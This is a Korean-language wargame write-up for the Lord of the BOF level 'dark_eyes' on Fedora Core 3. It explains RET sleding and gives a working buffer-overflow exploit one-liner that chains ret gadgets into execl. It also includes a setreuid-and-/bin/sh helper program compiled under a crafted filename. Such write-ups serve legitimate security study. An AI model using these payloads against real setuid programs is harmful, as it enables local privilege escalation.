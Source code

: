 ```yaml
---
title: FC3 iron_golem -> dark_eyes
date: 2017-01-05 01:40:00 +0900 KST
categories: [write-up]
---
```


ret sleding에 대해 쓰는 글

아래는 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - dark_eyes
    - Local BOF on Fedora Core 3
    - hint : RET sleding
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    char saved_sfp[4];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // save sfp
    memcpy(saved_sfp, buffer+264, 4);

    // overflow!!
    strcpy(buffer, argv[1]);

    // restore sfp
    memcpy(buffer+264, saved_sfp, 4);

    printf("%s\n", buffer);
}
```

buffer+264번지에 sfp, buffer+268번지에 ret이 있다. 이 단계는 sfp를 쓸 수 없다.

RET sleding은 ret으로 ret 명령어가 있는 주소를 가리키는 걸 뜻한다.

ret ret ret은 pop eip, pop eip, pop eip를 뜻하는데,
스택을 파괴하는 nop 느낌으로 쓰면 될듯.

이 문제에서 이걸 이용해서 어떻게 푸냐... 하면
execl 함수를 호출할 때 사용할 것이다.

참고로 execl은 execl("/bin/sh", NULL); 같은 느낌으로 써주면 된다.

얼추 내가 원하는 모양을 써서 gdb로 확인해보면

![gdb 1](gdb-1.png)

execl(0x0083eff4, 0x00000000);과 같은 식으로 호출되면 참 그림이 좋을 것 같다.
0x007a5720을 오른쪽으로 2번 밀어주자.

그럼 아래와 같은 코드가 완성된다.

./dark_eyes "`python -c 'print "A"*268 + "\xb9\x84\x04\x08"*3 + "\x20\x57\x7a"'`"

참고로 0x080484b9는 ret 명령어 주소, 0x007a5720은 execl 함수 주소.

그리고 0x0083eff4에는

![gdb 2](gdb-2.png)

0x83ed3c가 있다.

아래와 같은 코드를 작성해서 0x83ed3c로 실행파일명을 준비해주자.

```c
#include <unistd.h>
int main() {
    setreuid(geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}
```

```sh
gcc shell.c -o `python -c 'print "\x3c\xed\x83"'`
```

그 다음에 저 위에 써놓은 코드를 쓰면 sh 실행이 된다.
